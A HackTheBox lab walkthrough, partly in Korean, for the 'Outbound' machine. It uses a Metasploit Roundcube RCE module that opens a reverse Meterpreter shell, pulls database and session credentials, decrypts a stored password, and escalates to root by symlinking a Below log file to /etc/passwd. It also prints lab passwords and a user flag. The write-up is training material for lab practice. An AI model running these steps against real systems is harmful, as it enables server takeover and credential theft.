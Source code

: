 # HackTheBox Walkthrough - Machine: Outbound

**Target IP**: 10.129.196.209  
**Difficulty**: Medium  
**Objective**: Exploit Roundcube Webmail and escalate privileges via Below log symlink vulnerability to root.

---

## 🛰️ Initial Enumeration

```bash
nmap -sV -sC -oA nmap/Outbound 10.129.196.209
```

```
22/tcp open  ssh     OpenSSH 9.6p1
80/tcp open  http    nginx 1.24.0
```

> 웹서버는 mail.outbound.htb로 리디렉션됨

**/etc/hosts**에 추가:

```
10.129.196.209  mail.outbound.htb
```

---

## 📧 Roundcube Webmail 로그인

- URL: http://mail.outbound.htb/
- App: Roundcube Webmail
- Version: 1.6.10 (About 페이지)

**초기 자격증명**:  
`tyler / LhKL1o9Nm3X2`

---

## 🚀 Exploiting CVE-2025-49113 (Post-auth RCE)

```bash
msfconsole
search Roundcube Webmail 1.6.10
use exploit/multi/http/roundcube_auth_rce_cve_2025_49113

set USERNAME tyler
set PASSWORD LhKL1o9Nm3X2
set RHOSTS http://mail.outbound.htb/
set LHOST 10.10.14.156
run
```

> **Meterpreter** shell 획득

---

## 🧠 Local Enumeration

```bash
su tyler
# password: LhKL1o9Nm3X2
```

```bash
# linpeas.sh 사용하여 포트 정보 확인
ss -tulnp
```

> MySQL(localhost) 접속 가능  
> /var/www/html/roundcube/config/config.inc.php

```php
$config['db_dsnw'] = 'mysql://roundcube:RCDBPass2025@localhost/roundcube';
```

MySQL 접속:

```bash
mysql -u roundcube -pRCDBPass2025 -h 127.0.0.1 -D roundcube
```

- 테이블: `users`, `session` 등
- `users` 테이블에서 client_hash 수집 (crack 불가)

---

## 🔓 Password Recovery via Session Table

```sql
select * from session;
```

- base64 decode of session.vars reveals:

```text
username|s:5:"jacob";
password|s:32:"L7Rv00A8TuwJAr67kITxxcSgnIk25Am/";
```

### 🔐 3DES 복호화

- Key: `rcmail-!24ByteDESkey*Str`
- IV: `2fb46fd3403c4eec`  
- Input(hex): `0902bebb9084f1c5c4a09c8936e409bf`

복호화 결과 → **jacob의 password**: `595mO8DmwGeD`

```bash
su jacob
```

---

## 📬 Mailbox Access

```bash
cat /home/jacob/mail/INBOX/jacob
```

> mel로부터 패스워드 전달됨: `gY4Wr3a1evp4`

```bash
ssh jacob@10.129.196.209
```

---

## 🧍‍♂️ User Flag

```bash
cat user.txt
# ➜ 87f51f79ec4ad826d3624022033a26fb
```

---

## 🔝 Privilege Escalation via Below

```bash
sudo -l
```

```text
(ALL : ALL) NOPASSWD: /usr/bin/below *, !/usr/bin/below --config*, ...
```

### 🔥 CVE-2025-27591 - Symlink Exploit

- /var/log/below/* 파일을 symlink로 /etc/passwd 조작

```bash
echo 'root2:aacFCuAIHhrCM:0:0:,,,:/root:/bin/bash' > root2
rm /var/log/below/error_root.log
ln -s /etc/passwd /var/log/below/error_root.log
sudo /usr/bin/below
cp root2 /var/log/below/error_root.log
su root2
# password: 1
```

---

## 👑 Root Flag

```bash
cat /root/root.txt
```

---

**🎉 완료!**
